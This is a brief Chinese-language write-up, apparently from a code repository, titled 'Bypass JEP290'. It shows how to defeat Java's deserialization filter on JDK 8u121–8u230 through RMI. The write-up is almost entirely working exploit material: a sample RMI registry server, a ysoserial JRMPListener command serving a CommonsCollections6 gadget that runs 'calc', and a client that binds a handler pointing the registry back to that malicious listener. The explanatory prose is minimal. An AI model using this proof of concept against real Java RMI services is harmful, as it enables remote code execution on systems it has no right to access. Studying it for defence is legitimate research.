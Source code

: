 

# Bypass JEP290

简单总结一下

## 8u121-8u230

通过客户端攻击服务端

服务端:

```java
package jep290;

import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;

public class JRMPServer {

        public static void main(String[] args) throws RemoteException {

                LocateRegistry.createRegistry(1099);
                System.out.println("RMI Registry Start");

            while (true) ;
        }

}
```

恶意JRMP服务:

```cmd
java -cp ysoserial.jar  ysoserial.exploit.JRMPListener 1199 CommonsCollections6 "calc"
```

client:

```java
package jep290;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;
//Bypass 8u121~8u230
public class JRMPClient {

        public static void main(String[] args) throws Exception {
            Registry registry = LocateRegistry.getRegistry(1099);
            ObjID id = new ObjID(new Random().nextInt());
            TCPEndpoint te = new TCPEndpoint("localhost", 1199);
            UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
            RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler(ref);
            System.out.println(System.getProperty("java.version"));
// lookup方法也可以，但需要手动模拟lookup方法的流程
            registry.bind("pwn", handler);
            System.out.println(System.getProperties());
        }
}
```